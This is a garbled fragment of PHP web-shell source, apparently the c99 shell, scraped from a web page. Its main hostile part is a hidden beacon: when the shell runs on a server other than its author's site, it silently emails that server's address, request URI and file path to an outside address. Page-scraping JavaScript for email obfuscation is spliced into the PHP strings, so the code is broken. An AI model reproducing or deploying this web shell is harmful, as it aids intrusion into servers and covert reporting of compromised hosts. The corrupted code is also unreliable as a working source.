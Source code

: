 }

function is_script ($filename) {
	return ereg('\.php$|\.php3$|\.php4$|\.php5
&lt;?
// sh3ll.us & no-shell.net
// dj_vista16@hotmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */

// dj_vista16@hotmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */

$site = "www.Sh3ll.Us";
if(!ereg($site, $_SERVER['SERVER_NAME']))
{
$to = "dj_vista16@hotmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
";
$subject = "EGFM";
$header = "from: EGFM &lt;dj_vista16@hotmail.com
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
&gt;";
$message = "Link : http://" . $_SERVER['SERVER_NAME'] . $_SERVER['REQUEST_URI'] . "
";
$message .= "Path : " . __file__;
$sentmail = @mail($to, $subject, $message, $header);
echo "";
exit;
}
?&gt;
&lt;/body&gt;&lt;/html&gt;&lt;?php chdir($lastdir);
                                            c99shexit(); ?&gt;&lt;?, $filename);
}
